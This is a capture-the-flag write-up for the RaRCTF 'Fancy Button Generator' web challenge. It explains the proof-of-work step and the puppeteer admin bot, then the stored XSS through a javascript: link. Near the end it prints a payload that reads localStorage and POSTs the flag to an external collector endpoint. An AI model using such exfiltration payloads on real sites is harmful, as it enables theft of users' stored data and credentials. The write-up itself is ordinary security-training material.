

# RaRCTF: Fancy Button Generator

Check out this cool new fancy button generator! The buttons even glow!

https://fbg.rars.win/

Make sure to test your payloads using the full environment provided.

## Analysing the source code

We are given two folders, `admin` and `chall`. One is running an `express` server and one is running a `flask` server.

We are presented with the following site:


We can enter a title and link and it generates the following page:


Clicking on the button simply sends us to the link that we input.

Analysing the `chall` folder, we are greeted with the following endpoints:

- `/` GET request which displays the `index.html` file
- `/admin` POST request which triggers some form of POST request to the `express` server when the conditions are met
- `/pow` POST request which generates a cookie
- `/pow` GET request which generates the challenge we are required to solve

By heading to the `/pow` site, we are greeted with a randomly generated set of hexademical characters of length 4.
`{"pref":"2db5","suff":"5232"}`

From the source code, we need to bypass the `verify` function found in `pow.py`, which is essentially solving a `SHA256` hash to have minimally 6 trailing zeros in its resultant hash. The `solve` method is already given, and we can just enter the `pref` and `suff` that we just obtained to get the answer.

```python
def verify(prefix, suffix, answer, difficulty=6):
    hash = hashlib.sha256(prefix.encode() + answer.encode() + suffix.encode()).hexdigest()
    return hash.endswith("0"*difficulty)

def solve(prefix, suffix, difficulty):
    while True:
        test = binascii.hexlify(os.urandom(4)).decode()
        if verify(prefix, suffix, test, difficulty):
            return test
```

Once we have the answer, we can then make a `POST` request to the `/pow` endpoint. This essentially gets the flask server to set the session storage cookie to have a `verified` param, as well as a valid `end` param. Note that the sesison storage cookie is only valid for 30 seconds.

I used Insomnia to make the post request, hence, I copied the resultant cookie value into a browser to modify the cookie value, and made a `GET` request to the `/admin` endpoint.

We are then greeted with the following information: `Nice button! The admin will take a look. Current queue position: 1`. It kind of looks like we have hit a dead end, but we have yet to check out the `express` server in full detail.

## Express server

Once we have reached this point, we notice that a post request was made to the endpoint `/xss/add` of the `express` server from the following lines of code of the `admin` endpoint.

```python
title = request.args.get('title')
link = request.args.get('link')
host = random.choice(["admin", "admin2", "admin3"])
r = requests.post(f"http://{host}/xss/add", json={"title": title, "link": link}, headers={"Authorization": os.getenv("XSSBOT_SECRET")})
return f'Nice button! The admin will take a look. Current queue position: {r.json()["position"]}'

```

Upon checking out the files, we can see that the `express` server runs a queue to process each request.

```js
const admin = require("./admin.js");

app.post("/xss/add", (req, res) => {
    if(!req.headers.authorization || req.headers.authorization !== process.env.XSSBOT_SECRET) {
        return res.end("unauthorized");
    }

    let length = admin.addToQueue(req.body);
    res.send({"position": length});
    return res.end();
});

```

We can then take a look into `admin.js`.

In `admin.js` we find that the request is being processed by a headless `puppeteer` instance to access a link. We notice that the flag is being loaded into the instance's localstorage, and it accesses the `button` link of the site. 

```js
await page.evaluate(flag => {
    localStorage.flag = flag;
}, process.env.FLAG);

let url = process.env.SITE + "button?title=" + req.title + "&link=" + req.link;
console.log("Going to ", url);
await page.goto(url, {
    waitUntil: "networkidle2"
});
await page.click("#btn");

```

Most importantly, we notice that it clicks on the `button` with an id of `#btn`. We can now take a step back to look into the html files that were provided.

## Reviewing HTML files

We notice that the button we saw earlier that was generated has an id of `btn`. It also has the `href` value take on whatever `link` that we give to the site.

```html
<a class="special-case" id="btn" href="{{ link }}"><button class="special-button"> {{ title }}</button></a>
```

Fantastic, we can now deduce that some form of XSS is involved. We can verify that this works by passing `javascript: alert(1)` into the `link` field, and clicking the button. We notice that an alert message indeed appears when we click the button.



Since we know that the `flag` is stored in the `localStorage` with key `flag`, we can simply pass in a script to extract the `flag`. The issue however is we need a place to dump the flag to. This is where I utilised a [mockapi](https://mockapi.io/) to receive a `POST` request with the flag. I used the following script:

```javascript
javascript:
var request = new XMLHttpRequest();
request.open("POST", "MOCKAPIENDPOINTHERE", false);
request.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
request.send(localStorage.getItem("flag")); 
```

To piece everything together, we do the following:

1. Solve POW challenge and obtain the right session cookie from the server
2. Make a GET request to the `/admin` endpoint with the above script as a param in the `link`.
3. Retrieve the flag from the API.

We then get the flag: `rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}`
